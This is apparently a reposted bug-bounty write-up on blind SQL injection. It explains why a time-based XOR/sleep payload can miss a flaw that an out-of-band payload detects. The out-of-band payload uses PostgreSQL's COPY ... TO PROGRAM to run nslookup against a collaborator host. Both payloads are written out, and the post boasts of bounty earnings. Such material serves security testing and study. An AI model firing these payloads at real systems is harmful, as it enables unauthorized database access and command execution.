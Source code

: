 > source: https://medium.com/@pranshux0x/super-blind-sql-injection-20000-bounty-thousands-of-targets-still-vulnerable-f9b013765448

Time Based SQL Injection payload **failed** to detect SQL injection


```
XOR(if(now()=sysdate(),sleep(5),0))XOR
```

This SQL Injection (SQLi) payload attempts to exploit the target SQL database by introducing an intentional delay. Here’s a breakdown of what the payload does:

- `XOR(...)XOR`: XOR is used to obfuscate the payload to evade detection systems. Here, it surrounds the core injection part to make it less apparent.
    
- `if(now()=sysdate(),sleep(5),0)`: This is the core of the payload:
    
    - `now()` and `sysdate()`: Both functions are supposed to return the current date and time. Typically, these two functions will return the same value.
        
    - `if(now()=sysdate(),sleep(5),0)`: This statement checks if `now()` is equal to `sysdate()`. If true, it calls `sleep(5)`, causing the database to pause for 5 seconds. If false, it returns 0.

even though target is vulnerable with SQL injection.

OAST based SQL Injection payload detect it, but why ????.
Total bounty I made with **only OAST based SQL Injection** is **$20000 in 1 months.**
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

# Idea

I saw this tweet of Kanhaiya Sharma (the legend)

here bro mention the time based SQL injection payload

![[Pasted image 20250207153448.png]]

here bro mention the time based SQL injection payload

```
XOR(if(now()=sysdate(),sleep(5),0))XOR
```

Lots of labs solved with above mentioned time based SQL injection payload

XOR(if(now()=sysdate(),sleep(5),0))XOR

but this lab not solved with time based SQL injection payloads.


> https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

![[Pasted image 20250207153828.png]]

If the code is vulnerable with SQL Injection, then time based SQL Injection payload must work . I contact lot of other hackers of the community ( pro ones also ) , and ask if the code is vulnerable with SQL Injection, then it’s possible that time based payload will not detect sqli— everyone say it’s impossible that time based payload will not detect sqli.
